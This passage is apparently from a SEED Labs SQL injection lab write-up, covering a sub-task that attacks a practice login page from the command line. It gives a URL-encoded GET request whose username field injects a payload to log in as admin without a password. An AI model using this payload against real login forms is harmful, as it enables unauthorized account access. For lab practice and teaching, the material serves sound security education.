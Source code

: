 #### Sub-task 2: SQL Injection Attack from command line

* URL for GET after encoding 

  ```
  'http://www.seedlabsqlinjection.com/unsafe_home.php?username=%27+or+Name%3D%27admin%27%3B%23&Password='
  ```

  ![1588052156720](assets/1588052156720.png)

  ![1588052167492](assets/1588052167492.png)
